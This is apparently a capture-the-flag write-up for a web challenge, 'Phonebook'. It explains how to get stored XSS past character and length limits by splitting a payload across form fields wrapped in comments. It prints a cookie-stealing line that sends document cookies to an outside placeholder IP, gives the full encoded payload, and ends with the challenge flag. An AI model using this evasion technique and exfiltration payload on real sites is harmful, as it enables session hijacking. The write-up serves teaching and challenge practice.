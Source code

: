 # Phonebook

## Authors

* todo

## Category

* web

## Tags

_web_

## Description

One day I made a phone book application. After finishing I immediately realised I didn't need it
since no one talks to me anyway... :(. Anyway, go hack it.

## Difficulty

* hard

## Points

400

## Hints

_None_

## Files

_None_

## Setup

* Run the provided docker file

## Solution

_Code can be found in `solve.py`_

### Summary

This challenge involves performing XSS, but with limitations on character set and payload length.

#### Restirctions

We notice that we can trivially get XSS by putting `<script>` into the phonebook name selection. However, the number of characters here is limited so we cannot fit a full xss payload. We hence append a `/*` onto the end of the script to comment out everything else on the page.

We also note that every phone number is also XSSable, but the length is extremely limited (7 characters), and we cannot have `A-Za-z` or backticks. We can however have all other symbols. We can freely write javascript here as long as we comment out the rest of the line. This leaves us with `*/ppp/*` 3 character payloads.

We additionaly find that we can inject content into the number_owner field, although there are character restirctions on the content. We do note however that we can have ascii characters and `*/`, this lets us again repeat the strategy above. This field also has a length restriction but this should not pose a large issue for the exploit.

#### Payload

As this is a XSS challenge there are a few typical payloads we can trial. We will use `(new Image).src='//12.34.456.789:1234/'+document.cookies` in order to steal the admin user's cookies. The main challenge here is in
how to encode this payload.

#### Encoding

We split the payload into two classes of characters, symbols/numbers and letters. We aim to place symbols/numbers into the number field and letters into the number_owner field. Our exploit then looks like this.

```text
(                           new Image
).                          src
='//12.334.456.789:1234/'+  document
.                           cookies
```

However this obviously does not fit in the character restrictions. Additionally html content in between each section of the payload would cause javascript syntax errors.

#### Exploit 
We can overcome the latter issue by first wrapping each statement in a `*/<content>/*` block. This will ignore the html content but reduce the number of character avaliable for symbols to 3/phonenumber.
We can then use javascript string concatenation to separate the long series of symbols.

_A space is inserted between `*/` and content, this should not be present in the actul exploit, and is there for readability_

```text
*/ ( /*     */ new Image /*
*/ ). /*    */ src /*
*/ = /*     *//*
*/ '/' /*   *//*
*/ + /*     *//*
*/ '/' /*   *//*
*/ +1 /*    *//*
*/ +2 /*    *//*
*/ + /*     *//*
*/ '.' /*   *//*
*/ +3 /*    *//*
*/ +4+ /*   *//*
*/ '.' /*   *//*
*/ +56 /*   *//*
*/ +7+ /*   *//*
*/ '.' /*   *//*
*/ +89 /*   *//*
*/ +0+ /*   *//*
*/ ':' /*   *//*
*/ +12 /*   *//*
*/ +34 /*   *//*
*/ + /*     *//*
*/ '/' /*   *//*
*/ + /*     */ document /*
*/ . /*     */ cookie /*
```

### Flag

`ATLASSIAN{1ll_0p3n_a_J1R4_t1CK3T_f0r_it}`
